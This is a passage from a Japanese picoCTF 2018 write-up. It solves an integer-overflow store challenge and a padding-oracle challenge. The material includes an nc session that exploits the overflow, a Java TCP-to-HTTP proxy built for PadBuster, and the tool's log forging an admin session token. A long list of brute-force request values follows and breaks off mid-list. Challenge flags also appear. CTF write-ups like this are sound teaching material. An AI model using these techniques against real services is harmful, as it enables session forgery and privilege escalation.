            con = 1;
        }

    }
    return 0;
}
```

</details>

はーん。いかにもオーバーフローしますみたいな顔をしている。偽のフラグを買い、オーバーフローによってその合計額が負の値になるように差し向ければ逆にお金が増えることが予想できる。`int`型の最大値は`2147483647`だから、`2147484`個以上`1000`円の偽フラグを買うことでオーバーフローが発生する。ということで、偽フラグを`2200000`個買う。

<details><summary>shell</summary>

```
$ nc 2018shell2.picoctf.com ポート番号
Welcome to the Store App V1.0
World's Most Secure Purchasing App

[1] Check Account Balance

[2] Buy Stuff

[3] Exit

 Enter a menu selection
2
Current Auctions
[1] I Can't Believe its not a Flag!
[2] Real Flag
1
Imitation Flags cost 1000 each, how many would you like?
2200000

Your total cost is: -2094967296

Your new balance: 2094968396

Welcome to the Store App V1.0
World's Most Secure Purchasing App

[1] Check Account Balance

[2] Buy Stuff

[3] Exit

 Enter a menu selection
2
Current Auctions
[1] I Can't Believe its not a Flag!
[2] Real Flag
2
A genuine Flag costs 100000 dollars, and we only have 1 in stock
Enter 1 to purchase1
YOUR FLAG IS: picoCTF{numb3r3_4r3nt_s4f3_6bd13a8c}
Welcome to the Store App V1.0
World's Most Secure Purchasing App

[1] Check Account Balance

[2] Buy Stuff

[3] Exit

 Enter a menu selection
3
```

</details>

`picoCTF{numb3r3_4r3nt_s4f3_6bd13a8c}`

# Magic Padding Oracle
これはむっちゃ時間かかった。

任意の入力を受け取ってそれに対して復号化を試みるサービスが与えられる。また、例として一般ユーザーの期限切れセッションが与えられるので、管理者ユーザーの期限内のセッションを生成せよという問題。

対象の脆弱性自体はとてもわかりやすくて、ヒントにもあるように[Padding Oracle攻撃](https://en.wikipedia.org/wiki/Padding_oracle_attack)だ。このプログラムは不正なパディングを発見した際に`invalid padding`と表示してしまうために、それを利用して線形なオーダーで総当たり攻撃が可能となっている。

この攻撃はPadBusterという攻撃ツールがあるので、それを利用する。但し、PadBusterはHTTP経由の攻撃にしか対応していないようなので、TCP<->HTTPのプロクシを書いた。

<details><summary>java</summary>

```java
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.net.httpserver.HttpServer;

import java.io.IOException;
import java.io.PrintStream;
import java.net.InetSocketAddress;
import java.net.Socket;
import java.util.ArrayList;
import java.util.List;
import java.util.Scanner;
import java.util.stream.IntStream;

public class HttpTcpProxy implements HttpHandler {

    public static void main(String ... args) throws IOException {
        HttpServer server = HttpServer.create();
        server.createContext("/", new HttpTcpProxy());
        server.bind(new InetSocketAddress(8080), 512);
        server.start();
    }

    @Override
    public void handle(HttpExchange exchange) throws IOException {
        String arg = exchange.getRequestURI().getPath().substring(1);
        System.out.println(arg);
        try (Socket socket = new Socket("2018shell2.picoctf.com", PORT);
             PrintStream w = new PrintStream(socket.getOutputStream());
             Scanner sc = new Scanner(socket.getInputStream());
             PrintStream r = new PrintStream(exchange.getResponseBody())) {

            List<String> body = new ArrayList<>();
            IntStream.range(0, 5).mapToObj(i -> sc.nextLine()).forEach(body::add);
            w.println(arg);
            while (sc.hasNextLine()) {
                body.add(sc.nextLine());
            }
            String bodyCon = String.join("\n", body);
            exchange.sendResponseHeaders(200, bodyCon.length());
            r.print(bodyCon);
        }
    }
}
```

</details>

こんな回りくどいことする必要性あるんだろうか(?) 取り敢えず、これでツールを回してみる。

復号化を行うと、`{"username": "guest", "expires": "2000-01-07", "is_admin": "false"}`となっていたので、`{"username": "guest", "expires": "2019-01-07", "is_admin": "true"}`を暗号化すればフラグが得られる。同様にツールを用いる。

<details><summary>log</summary>

```
$ perl ./padBuster.pl http://localhost:8080/5468697320697320616e204956343536bade59109764febea2c7750a4dae94dc9d494afe7d2f6f65fb1396791585bc03001275db3d5dc7666a39a5b1159e261a7bce4dd133a77c975cbba1ddb3751bc69f88ebbf9d2ca59cda28230eddb23e16 5468697320697320616e204956343536bade59109764febea2c7750a4dae94dc9d494afe7d2f6f65fb1396791585bc03001275db3d5dc7666a39a5b1159e261a7bce4dd133a77c975cbba1ddb3751bc69f88ebbf9d2ca59cda28230eddb23e16 16 -plaintext "{\"username\":\"guest\",\"expires\":\"2020-01-07\",\"is_admin\":\"true\"}" -error "invalid padding" -encoding 1

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 337

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 4

[+] Success: (239/256) [Byte 16]
[+] Success: (7/256) [Byte 15]
[+] Success: (244/256) [Byte 14]
[+] Success: (107/256) [Byte 13]
[+] Success: (111/256) [Byte 12]
[+] Success: (128/256) [Byte 11]
[+] Success: (234/256) [Byte 10]
[+] Success: (55/256) [Byte 9]
[+] Success: (31/256) [Byte 8]
[+] Success: (209/256) [Byte 7]
[+] Success: (114/256) [Byte 6]
[+] Success: (101/256) [Byte 5]
[+] Success: (101/256) [Byte 4]
[+] Success: (46/256) [Byte 3]
[+] Success: (105/256) [Byte 2]
[+] Success: (224/256) [Byte 1]

Block 4 Results:
[+] New Cipher Text (HEX): 54f5b5f8b5bf079cb364e3b6ec0cf813
[+] Intermediate Bytes (HEX): 3098dc96978525e8c1118694910ffb10

[+] Success: (74/256) [Byte 16]
[+] Success: (66/256) [Byte 15]
[+] Success: (41/256) [Byte 14]
[+] Success: (206/256) [Byte 13]
[+] Success: (137/256) [Byte 12]
[+] Success: (177/256) [Byte 11]
[+] Success: (250/256) [Byte 10]
[+] Success: (95/256) [Byte 9]
[+] Success: (199/256) [Byte 8]
[+] Success: (3/256) [Byte 7]
[+] Success: (44/256) [Byte 6]
[+] Success: (187/256) [Byte 5]
[+] Success: (89/256) [Byte 4]
[+] Success: (95/256) [Byte 3]
[+] Success: (42/256) [Byte 2]
[+] Success: (169/256) [Byte 1]

Block 3 Results:
[+] New Cipher Text (HEX): 77eb9f8779eeda009e2365505fa7e3d6
[+] Intermediate Bytes (HEX): 47d9afaa49dff730a901497236d4bcb7

[+] Success: (9/256) [Byte 16]
[+] Success: (84/256) [Byte 15]
[+] Success: (243/256) [Byte 14]
[+] Success: (26/256) [Byte 13]
[+] Success: (246/256) [Byte 12]
[+] Success: (123/256) [Byte 11]
[+] Success: (63/256) [Byte 10]
[+] Success: (213/256) [Byte 9]
[+] Success: (6/256) [Byte 8]
[+] Success: (88/256) [Byte 7]
[+] Success: (122/256) [Byte 6]
[+] Success: (51/256) [Byte 5]
[+] Success: (204/256) [Byte 4]
[+] Success: (70/256) [Byte 3]
[+] Success: (161/256) [Byte 2]
[+] Success: (99/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): fe249615e3e8da834ab4e67cc0348cc4
[+] Intermediate Bytes (HEX): 8d50b439c18da2f323c6830fe20eaef6

[+] Success: (211/256) [Byte 16]
[+] Success: (252/256) [Byte 15]
[+] Success: (248/256) [Byte 14]
[+] Success: (142/256) [Byte 13]
[+] Success: (184/256) [Byte 12]
[+] Success: (152/256) [Byte 11]
[+] Success: (239/256) [Byte 10]
[+] Success: (101/256) [Byte 9]
[+] Success: (170/256) [Byte 8]
[+] Success: (172/256) [Byte 7]
[+] Success: (228/256) [Byte 6]
[+] Success: (19/256) [Byte 5]
[+] Success: (162/256) [Byte 4]
[+] Success: (236/256) [Byte 3]
[+] Success: (156/256) [Byte 2]
[+] Success: (109/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): f8496f208465303efe734c77546c7349
[+] Intermediate Bytes (HEX): 836b1a53e1175e5f93166e4d760b062c

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: f8496f208465303efe734c77546c7349fe249615e3e8da834ab4e67cc0348cc477eb9f8779eeda009e2365505fa7e3d654f5b5f8b5bf079cb364e3b6ec0cf81300000000000000000000000000000000
-------------------------------------------------------
```

</details>
<details><summary>リクエスト一覧(長い)</summary>

```
000000000000000000000000000000ff00000000000000000000000000000000
000000000000000000000000000000fe00000000000000000000000000000000
000000000000000000000000000000fd00000000000000000000000000000000
000000000000000000000000000000fc00000000000000000000000000000000
000000000000000000000000000000fb00000000000000000000000000000000
000000000000000000000000000000fa00000000000000000000000000000000
000000000000000000000000000000f900000000000000000000000000000000
000000000000000000000000000000f800000000000000000000000000000000
000000000000000000000000000000f700000000000000000000000000000000
000000000000000000000000000000f600000000000000000000000000000000
000000000000000000000000000000f500000000000000000000000000000000
000000000000000000000000000000f400000000000000000000000000000000
000000000000000000000000000000f300000000000000000000000000000000
000000000000000000000000000000f200000000000000000000000000000000
000000000000000000000000000000f100000000000000000000000000000000
000000000000000000000000000000f000000000000000000000000000000000
000000000000000000000000000000ef00000000000000000000000000000000
000000000000000000000000000000ee00000000000000000000000000000000
000000000000000000000000000000ed00000000000000000000000000000000
000000000000000000000000000000ec00000000000000000000000000000000
000000000000000000000000000000eb00000000000000000000000000000000
000000000000000000000000000000ea00000000000000000000000000000000
000000000000000000000000000000e900000000000000000000000000000000
000000000000000000000000000000e800000000000000000000000000000000
000000000000000000000000000000e700000000000000000000000000000000
000000000000000000000000000000e600000000000000000000000000000000
000000000000000000000000000000e500000000000000000000000000000000
000000000000000000000000000000e400000000000000000000000000000000
000000000000000000000000000000e300000000000000000000000000000000
000000000000000000000000000000e200000000000000000000000000000000
000000000000000000000000000000e100000000000000000000000000000000
000000000000000000000000000000e000000000000000000000000000000000
000000000000000000000000000000df00000000000000000000000000000000
000000000000000000000000000000de00000000000000000000000000000000
000000000000000000000000000000dd00000000000000000000000000000000
000000000000000000000000000000dc00000000000000000000000000000000
000000000000000000000000000000db00000000000000000000000000000000
000000000000000000000000000000da00000000000000000000000000000000
000000000000000000000000000000d900000000000000000000000000000000
000000000000000000000000000000d800000000000000000000000000000000
000000000000000000000000000000d700000000000000000000000000000000
000000000000000000000000000000d600000000000000000000000000000000
000000000000000000000000000000d500000000000000000000000000000000
000000000000000000000000000000d400000000000000000000000000000000
000000000000000000000000000000d300000000000000000000000000000000
000000000000000000000000000000d200000000000000000000000000000000
000000000000000000000000000000d100000000000000000000000000000000
000000000000000000000000000000d000000000000000000000000000000000
000000000000000000000000000000cf00000000000000000000000000000000
000000000000000000000000000000ce00000000000000000000000000000000
000000000000000000000000000000cd00000000000000000000000000000000
000000000000000000000000000000cc00000000000000000000000000000000
000000000000000000000000000000cb00000000000000000000000000000000
000000000000000000000000000000ca00000000000000000000000000000000
000000000000000000000000000000c900000000000000000000000000000000
000000000000000000000000000000c800000000000000000000000000000000
000000000000000000000000000000c700000000000000000000000000000000
000000000000000000000000000000c600000000000000000000000000000000
000000000000000000000000000000c500000000000000000000000000000000
000000000000000000000000000000c400000000000000000000000000000000
000000000000000000000000000000c300000000000000000000000000000000
000000000000000000000000000000c200000000000000000000000000000000
000000000000000000000000000000c100000000000000000000000000000000
000000000000000000000000000000c000000000000000000000000000000000
000000000000000000000000000000bf00000000000000000000000000000000
000000000000000000000000000000be00000000000000000000000000000000
000000000000000000000000000000bd00000000000000000000000000000000
000000000000000000000000000000bc00000000000000000000000000000000
000000000000000000000000000000bb00000000000000000000000000000000
000000000000000000000000000000ba00000000000000000000000000000000
000000000000000000000000000000b900000000000000000000000000000000
000000000000000000000000000000b800000000000000000000000000000000
000000000000000000000000000000b700000000000000000000000000000000
000000000000000000000000000000b600000000000000000000000000000000
000000000000000000000000000000b500000000000000000000000000000000
000000000000000000000000000000b400000000000000000000000000000000
000000000000000000000000000000b300000000000000000000000000000000
000000000000000000000000000000b200000000000000000000000000000000
000000000000000000000000000000b100000000000000000000000000000000
000000000000000000000000000000b000000000000000000000000000000000
000000000000000000000000000000af00000000000000000000000000000000
000000000000000000000000000000ae00000000000000000000000000000000
000000000000000000000000000000ad00000000000000000000000000000000
000000000000000000000000000000ac00000000000000000000000000000000
000000000000000000000000000000ab00000000000000000000000000000000
000000000000000000000000000000aa00000000000000000000000000000000
000000000000000000000000000000a900000000000000000000000000000000
000000000000000000000000000000a800000000000000000000000000000000
000000000000000000000000000000a700000000000000000000000000000000
000000000000000000000000000000a600000000000000000000000000000000
000000000000000000000000000000a500000000000000000000000000000000
000000000000000000000000000000a400000000000000000000000000000000
000000000000000000000000000000a300000000000000000000000000000000
000000000000000000000000000000a200000000000000000000000000000000
000000000000000000000000000000a100000000000000000000000000000000
000000000000000000000000000000a000000000000000000000000000000000
0000000000000000000000000000009f00000000000000000000000000000000
0000000000000000000000000000009e00000000000000000000000000000000
0000000000000000000000000000009d00000000000000000000000000000000
0000000000000000000000000000009c00000000000000000000000000000000
0000000000000000000000000000009b00000000000000000000000000000000
0000000000000000000000000000009a00000000000000000000000000000000
0000000000000000000000000000009900000000000000000000000000000000
0000000000000000000000000000009800000000000000000000000000000000
0000000000000000000000000000009700000000000000000000000000000000
0000000000000000000000000000009600000000000000000000000000000000
0000000000000000000000000000009500000000000000000000000000000000
0000000000000000000000000000009400000000000000000000000000000000
0000000000000000000000000000009300000000000000000000000000000000
0000000000000000000000000000009200000000000000000000000000000000
0000000000000000000000000000009100000000000000000000000000000000
0000000000000000000000000000009000000000000000000000000000000000
0000000000000000000000000000008f00000000000000000000000000000000
0000000000000000000000000000008e00000000000000000000000000000000
0000000000000000000000000000008d00000000000000000000000000000000
0000000000000000000000000000008c00000000000000000000000000000000
0000000000000000000000000000008b00000000000000000000000000000000
0000000000000000000000000000008a00000000000000000000000000000000
0000000000000000000000000000008900000000000000000000000000000000
0000000000000000000000000000008800000000000000000000000000000000
0000000000000000000000000000008700000000000000000000000000000000
0000000000000000000000000000008600000000000000000000000000000000
0000000000000000000000000000008500000000000000000000000000000000
0000000000000000000000000000008400000000000000000000000000000000
0000000000000000000000000000008300000000000000000000000000000000
0000000000000000000000000000008200000000000000000000000000000000
0000000000000000000000000000008100000000000000000000000000000000
0000000000000000000000000000008000000000000000000000000000000000
0000000000000000000000000000007f00000000000000000000000000000000
0000000000000000000000000000007e00000000000000000000000000000000
0000000000000000000000000000007d00000000000000000000000000000000
0000000000000000000000000000007c00000000000000000000000000000000
0000000000000000000000000000007b00000000000000000000000000000000
0000000000000000000000000000007a00000000000000000000000000000000
0000000000000000000000000000007900000000000000000000000000000000
0000000000000000000000000000007800000000000000000000000000000000
0000000000000000000000000000007700000000000000000000000000000000
0000000000000000000000000000007600000000000000000000000000000000
0000000000000000000000000000007500000000000000000000000000000000
0000000000000000000000000000007400000000000000000000000000000000
0000000000000000000000000000007300000000000000000000000000000000
0000000000000000000000000000007200000000000000000000000000000000
0000000000000000000000000000007100000000000000000000000000000000
0000000000000000000000000000007000000000000000000000000000000000
0000000000000000000000000000006f00000000000000000000000000000000
0000000000000000000000000000006e00000000000000000000000000000000
0000000000000000000000000000006d00000000000000000000000000000000
0000000000000000000000000000006c00000000000000000000000000000000
0000000000000000000000000000006b00000000000000000000000000000000
0000000000000000000000000000006a00000000000000000000000000000000
0000000000000000000000000000006900000000000000000000000000000000
0000000000000000000000000000006800000000000000000000000000000000
0000000000000000000000000000006700000000000000000000000000000000
0000000000000000000000000000006600000000000000000000000000000000
0000000000000000000000000000006500000000000000000000000000000000
0000000000000000000000000000006400000000000000000000000000000000
0000000000000000000000000000006300000000000000000000000000000000
0000000000000000000000000000006200000000000000000000000000000000
0000000000000000000000000000006100000000000000000000000000000000
0000000000000000000000000000006000000000000000000000000000000000
0000000000000000000000000000005f00000000000000000000000000000000
0000000000000000000000000000005e00000000000000000000000000000000
0000000000000000000000000000005d00000000000000000000000000000000
0000000000000000000000000000005c00000000000000000000000000000000
0000000000000000000000000000005b00000000000000000000000000000000
0000000000000000000000000000005a00000000000000000000000000000000
0000000000000000000000000000005900000000000000000000000000000000
0000000000000000000000000000005800000000000000000000000000000000
0000000000000000000000000000005700000000000000000000000000000000
0000000000000000000000000000005600000000000000000000000000000000
0000000000000000000000000000005500000000000000000000000000000000
0000000000000000000000000000005400000000000000000000000000000000
0000000000000000000000000000005300000000000000000000000000000000
0000000000000000000000000000005200000000000000000000000000000000
0000000000000000000000000000005100000000000000000000000000000000
0000000000000000000000000000005000000000000000000000000000000000
0000000000000000000000000000004f00000000000000000000000000000000
0000000000000000000000000000004e00000000000000000000000000000000
0000000000000000000000000000004d00000000000000000000000000000000
0000000000000000000000000000004c00000000000000000000000000000000
0000000000000000000000000000004b00000000000000000000000000000000
0000000000000000000000000000004a00000000000000000000000000000000
0000000000000000000000000000004900000000000000000000000000000000
0000000000000000000000000000004800000000000000000000000000000000
0000000000000000000000000000004700000000000000000000000000000000
0000000000000000000000000000004600000000000000000000000000000000
0000000000000000000000000000004500000000000000000000000000000000
0000000000000000000000000000004400000000000000000000000000000000
0000000000000000000000000000004300000000000000000000000000000000
0000000000000000000000000000004200000000000000000000000000000000
0000000000000000000000000000004100000000000000000000000000000000
0000000000000000000000000000004000000000000000000000000000000000
0000000000000000000000000000003f00000000000000000000000000000000
0000000000000000000000000000003e00000000000000000000000000000000
0000000000000000000000000000003d00000000000000000000000000000000
0000000000000000000000000000003c00000000000000000000000000000000
0000000000000000000000000000003b00000000000000000000000000000000
0000000000000000000000000000003a00000000000000000000000000000000
0000000000000000000000000000003900000000000000000000000000000000
0000000000000000000000000000003800000000000000000000000000000000
0000000000000000000000000000003700000000000000000000000000000000
0000000000000000000000000000003600000000000000000000000000000000
0000000000000000000000000000003500000000000000000000000000000000
0000000000000000000000000000003400000000000000000000000000000000
0000000000000000000000000000003300000000000000000000000000000000
0000000000000000000000000000003200000000000000000000000000000000
0000000000000000000000000000003100000000000000000000000000000000
0000000000000000000000000000003000000000000000000000000000000000
0000000000000000000000000000002f00000000000000000000000000000000
0000000000000000000000000000002e00000000000000000000000000000000
0000000000000000000000000000002d00000000000000000000000000000000
0000000000000000000000000000002c00000000000000000000000000000000
0000000000000000000000000000002b00000000000000000000000000000000
0000000000000000000000000000002a00000000000000000000000000000000
0000000000000000000000000000002900000000000000000000000000000000
0000000000000000000000000000002800000000000000000000000000000000
0000000000000000000000000000002700000000000000000000000000000000
0000000000000000000000000000002600000000000000000000000000000000
0000000000000000000000000000002500000000000000000000000000000000
0000000000000000000000000000002400000000000000000000000000000000
0000000000000000000000000000002300000000000000000000000000000000
0000000000000000000000000000002200000000000000000000000000000000
0000000000000000000000000000002100000000000000000000000000000000
0000000000000000000000000000002000000000000000000000000000000000
0000000000000000000000000000001f00000000000000000000000000000000
0000000000000000000000000000001e00000000000000000000000000000000
0000000000000000000000000000001d00000000000000000000000000000000
0000000000000000000000000000001c00000000000000000000000000000000
0000000000000000000000000000001b00000000000000000000000000000000
0000000000000000000000000000001a00000000000000000000000000000000
0000000000000000000000000000001900000000000000000000000000000000
0000000000000000000000000000001800000000000000000000000000000000
0000000000000000000000000000001700000000000000000000000000000000
0000000000000000000000000000001600000000000000000000000000000000
0000000000000000000000000000001500000000000000000000000000000000
0000000000000000000000000000001400000000000000000000000000000000
0000000000000000000000000000001300000000000000000000000000000000
0000000000000000000000000000001200000000000000000000000000000000
0000000000000000000000000000001100000000000000000000000000000000
0000000000000000000000000000ff1200000000000000000000000000000000
0000000000000000000000000000fe1200000000000000000000000000000000
0000000000000000000000000000fd1200000000000000000000000000000000
0000000000000000000000000000fc1200000000000000000000000000000000
0000000000000000000000000000fb1200000000000000000000000000000000
0000000000000000000000000000fa1200000000000000000000000000000000
0000000000000000000000000000f91200000000000000000000000000000000
00000000000000000000000000fff81300000000000000000000000000000000
00000000000000000000000000fef81300000000000000000000000000000000
00000000000000000000000000fdf81300000000000000000000000000000000
00000000000000000000000000fcf81300000000000000000000000000000000
00000000000000000000000000fbf81300000000000000000000000000000000
00000000000000000000000000faf81300000000000000000000000000000000
00000000000000000000000000f9f81300000000000000000000000000000000
00000000000000000000000000f8f81300000000000000000000000000000000
00000000000000000000000000f7f81300000000000000000000000000000000
00000000000000000000000000f6f81300000000000000000000000000000000
00000000000000000000000000f5f81300000000000000000000000000000000
00000000000000000000000000f4f81300000000000000000000000000000000
00000000000000000000000000f3f81300000000000000000000000000000000
00000000000000000000000000f2f81300000000000000000000000000000000
00000000000000000000000000f1f81300000000000000000000000000000000
00000000000000000000000000f0f81300000000000000000000000000000000
00000000000000000000000000eff81300000000000000000000000000000000
00000000000000000000000000eef81300000000000000000000000000000000
00000000000000000000000000edf81300000000000000000000000000000000
00000000000000000000000000ecf81300000000000000000000000000000000
00000000000000000000000000ebf81300000000000000000000000000000000
00000000000000000000000000eaf81300000000000000000000000000000000
00000000000000000000000000e9f81300000000000000000000000000000000
00000000000000000000000000e8f81300000000000000000000000000000000
00000000000000000000000000e7f81300000000000000000000000000000000
00000000000000000000000000e6f81300000000000000000000000000000000
00000000000000000000000000e5f81300000000000000000000000000000000
00000000000000000000000000e4f81300000000000000000000000000000000
00000000000000000000000000e3f81300000000000000000000000000000000
00000000000000000000000000e2f81300000000000000000000000000000000
00000000000000000000000000e1f81300000000000000000000000000000000
00000000000000000000000000e0f81300000000000000000000000000000000
00000000000000000000000000dff81300000000000000000000000000000000
00000000000000000000000000def81300000000000000000000000000000000
00000000000000000000000000ddf81300000000000000000000000000000000
00000000000000000000000000dcf81300000000000000000000000000000000
00000000000000000000000000dbf81300000000000000000000000000000000
00000000000000000000000000daf81300000000000000000000000000000000
00000000000000000000000000d9f81300000000000000000000000000000000
00000000000000000000000000d8f81300000000000000000000000000000000
00000000000000000000000000d7f81300000000000000000000000000000000
00000000000000000000000000d6f81300000000000000000000000000000000
00000000000000000000000000d5f81300000000000000000000000000000000
00000000000000000000000000d4f81300000000000000000000000000000000
00000000000000000000000000d3f81300000000000000000000000000000000
00000000000000000000000000d2f81300000000000000000000000000000000
00000000000000000000000000d1f81300000000000000000000000000000000
00000000000000000000000000d0f81300000000000000000000000000000000
00000000000000000000000000cff81300000000000000000000000000000000
00000000000000000000000000cef81300000000000000000000000000000000
00000000000000000000000000cdf81300000000000000000000000000000000
00000000000000000000000000ccf81300000000000000000000000000000000
00000000000000000000000000cbf81300000000000000000000000000000000
00000000000000000000000000caf81300000000000000000000000000000000
00000000000000000000000000c9f81300000000000000000000000000000000
00000000000000000000000000c8f81300000000000000000000000000000000
00000000000000000000000000c7f81300000000000000000000000000000000
00000000000000000000000000c6f81300000000000000000000000000000000
00000000000000000000000000c5f81300000000000000000000000000000000
00000000000000000000000000c4f81300000000000000000000000000000000
00000000000000000000000000c3f81300000000000000000000000000000000
00000000000000000000000000c2f81300000000000000000000000000000000
00000000000000000000000000c1f81300000000000000000000000000000000
00000000000000000000000000c0f81300000000000000000000000000000000
00000000000000000000000000bff81300000000000000000000000000000000
00000000000000000000000000bef81300000000000000000000000000000000
00000000000000000000000000bdf81300000000000000000000000000000000
00000000000000000000000000bcf81300000000000000000000000000000000
00000000000000000000000000bbf81300000000000000000000000000000000
00000000000000000000000000baf81300000000000000000000000000000000
00000000000000000000000000b9f81300000000000000000000000000000000
00000000000000000000000000b8f81300000000000000000000000000000000
00000000000000000000000000b7f81300000000000000000000000000000000
00000000000000000000000000b6f81300000000000000000000000000000000
00000000000000000000000000b5f81300000000000000000000000000000000
00000000000000000000000000b4f81300000000000000000000000000000000
00000000000000000000000000b3f81300000000000000000000000000000000
00000000000000000000000000b2f81300000000000000000000000000000000
00000000000000000000000000b1f81300000000000000000000000000000000
00000000000000000000000000b0f81300000000000000000000000000000000
00000000000000000000000000aff81300000000000000000000000000000000
00000000000000000000000000aef81300000000000000000000000000000000
00000000000000000000000000adf81300000000000000000000000000000000
00000000000000000000000000acf81300000000000000000000000000000000
00000000000000000000000000abf81300000000000000000000000000000000
00000000000000000000000000aaf81300000000000000000000000000000000
00000000000000000000000000a9f81300000000000000000000000000000000
00000000000000000000000000a8f81300000000000000000000000000000000
00000000000000000000000000a7f81300000000000000000000000000000000
00000000000000000000000000a6f81300000000000000000000000000000000
00000000000000000000000000a5f81300000000000000000000000000000000
00000000000000000000000000a4f81300000000000000000000000000000000
00000000000000000000000000a3f81300000000000000000000000000000000
00000000000000000000000000a2f81300000000000000000000000000000000
00000000000000000000000000a1f81300000000000000000000000000000000
00000000000000000000000000a0f81300000000000000000000000000000000
000000000000000000000000009ff81300000000000000000000000000000000
000000000000000000000000009ef81300000000000000000000000000000000
000000000000000000000000009df81300000000000000000000000000000000
000000000000000000000000009cf81300000000000000000000000000000000
000000000000000000000000009bf81300000000000000000000000000000000
000000000000000000000000009af81300000000000000000000000000000000
0000000000000000000000000099f81300000000000000000000000000000000
0000000000000000000000000098f81300000000000000000000000000000000
0000000000000000000000000097f81300000000000000000000000000000000
0000000000000000000000000096f81300000000000000000000000000000000
0000000000000000000000000095f81300000000000000000000000000000000
0000000000000000000000000094f81300000000000000000000000000000000
0000000000000000000000000093f81300000000000000000000000000000000
0000000000000000000000000092f81300000000000000000000000000000000
0000000000000000000000000091f81300000000000000000000000000000000
0000000000000000000000000090f81300000000000000000000000000000000
000000000000000000000000008ff81300000000000000000000000000000000
000000000000000000000000008ef81300000000000000000000000000000000
000000000000000000000000008df81300000000000000000000000000000000
000000000000000000000000008cf81300000000000000000000000000000000
000000000000000000000000008bf81300000000000000000000000000000000
000000000000000000000000008af81300000000000000000000000000000000
0000000000000000000000000089f81300000000000000000000000000000000
0000000000000000000000000088f81300000000000000000000000000000000
0000000000000000000000000087f81300000000000000000000000000000000
0000000000000000000000000086f81300000000000000000000000000000000
0000000000000000000000000085f81300000000000000000000000000000000
0000000000000000000000000084f81300000000000000000000000000000000
0000000000000000000000000083f81300000000000000000000000000000000
0000000000000000000000000082f81300000000000000000000000000000000
0000000000000000000000000081f81300000000000000000000000000000000
0000000000000000000000000080f81300000000000000000000000000000000
000000000000000000000000007ff81300000000000000000000000000000000
000000000000000000000000007ef81300000000000000000000000000000000
000000000000000000000000007df81300000000000000000000000000000000
000000000000000000000000007cf81300000000000000000000000000000000
000000000000000000000000007bf81300000000000000000000000000000000
000000000000000000000000007af81300000000000000000000000000000000
0000000000000000000000000079f81300000000000000000000000000000000
0000000000000000000000000078f81300000000000000000000000000000000
0000000000000000000000000077f81300000000000000000000000000000000
0000000000000000000000000076f81300000000000000000000000000000000
0000000000000000000000000075f81300000000000000000000000000000000
0000000000000000000000000074f81300000000000000000000000000000000
0000000000000000000000000073f81300000000000000000000000000000000
0000000000000000000000000072f81300000000000000000000000000000000
0000000000000000000000000071f81300000000000000000000000000000000
0000000000000000000000000070f81300000000000000000000000000000000
000000000000000000000000006ff81300000000000000000000000000000000
000000000000000000000000006ef81300000000000000000000000000000000
000000000000000000000000006df81300000000000000000000000000000000
000000000000000000000000006cf81300000000000000000000000000000000
000000000000000000000000006bf81300000000000000000000000000000000
000000000000000000000000006af81300000000000000000000000000000000
0000000000000000000000000069f81300000000000000000000000000000000
0000000000000000000000000068f81300000000000000000000000000000000
0000000000000000000000000067f81300000000000000000000000000000000
0000000000000000000000000066f81300000000000000000000000000000000
0000000000000000000000000065f81300000000000000000000000000000000
0000000000000000000000000064f81300000000000000000000000000000000
0000000000000000000000000063f81300000000000000000000000000000000
0000000000000000000000000062f81300000000000000000000000000000000
0000000000000000000000000061f81300000000000000000000000000000000
0000000000000000000000000060f81300000000000000000000000000000000
000000000000000000000000005ff81300000000000000000000000000000000
000000000000000000000000005ef81300000000000000000000000000000000
000000000000000000000000005df81300000000000000000000000000000000
000000000000000000000000005cf81300000000000000000000000000000000
000000000000000000000000005bf81300000000000000000000000000000000
000000000000000000000000005af81300000000000000000000000000000000
0000000000000000000000000059f81300000000000000000000000000000000
0000000000000000000000000058f81300000000000000000000000000000000
0000000000000000000000000057f81300000000000000000000000000000000
0000000000000000000000000056f81300000000000000000000000000000000
0000000000000000000000000055f81300000000000000000000000000000000
0000000000000000000000000054f81300000000000000000000000000000000
0000000000000000000000000053f81300000000000000000000000000000000
0000000000000000000000000052f81300000000000000000000000000000000
0000000000000000000000000051f81300000000000000000000000000000000
0000000000000000000000000050f81300000000000000000000000000000000
000000000000000000000000004ff81300000000000000000000000000000000
000000000000000000000000004ef81300000000000000000000000000000000
000000000000000000000000004df81300000000000000000000000000000000
000000000000000000000000004cf81300000000000000000000000000000000
000000000000000000000000004bf81300000000000000000000000000000000
000000000000000000000000004af81300000000000000000000000000000000
0000000000000000000000000049f81300000000000000000000000000000000
0000000000000000000000000048f81300000000000000000000000000000000
0000000000000000000000000047f81300000000000000000000000000000000
0000000000000000000000000046f81300000000000000000000000000000000
0000000000000000000000000045f81300000000000000000000000000000000
0000000000000000000000000044f81300000000000000000000000000000000
0000000000000000000000000043f81300000000000000000000000000000000
0000000000000000000000000042f81300000000000000000000000000000000
0000000000000000000000000041f81300000000000000000000000000000000
0000000000000000000000000040f81300000000000000000000000000000000
000000000000000000000000003ff81300000000000000000000000000000000
000000000000000000000000003ef81300000000000000000000000000000000
000000000000000000000000003df81300000000000000000000000000000000
000000000000000000000000003cf81300000000000000000000000000000000
000000000000000000000000003bf81300000000000000000000000000000000
000000000000000000000000003af81300000000000000000000000000000000
0000000000000000000000000039f81300000000000000000000000000000000
0000000000000000000000000038f81300000000000000000000000000000000
0000000000000000000000000037f81300000000000000000000000000000000
0000000000000000000000000036f81300000000000000000000000000000000
0000000000000000000000000035f81300000000000000000000000000000000
0000000000000000000000000034f81300000000000000000000000000000000
0000000000000000000000000033f81300000000000000000000000000000000
0000000000000000000000000032f81300000000000000000000000000000000
0000000000000000000000000031f81300000000000000000000000000000000
0000000000000000000000000030f81300000000000000000000000000000000
000000000000000000000000002ff81300000000000000000000000000000000
000000000000000000000000002ef81300000000000000000000000000000000
000000000000000000000000002df81300000000000000000000000000000000
000000000000000000000000002cf81300000000000000000000000000000000
000000000000000000000000002bf81300000000000000000000000000000000
000000000000000000000000002af81300000000000000000000000000000000
0000000000000000000000000029f81300000000000000000000000000000000
0000000000000000000000000028f81300000000000000000000000000000000
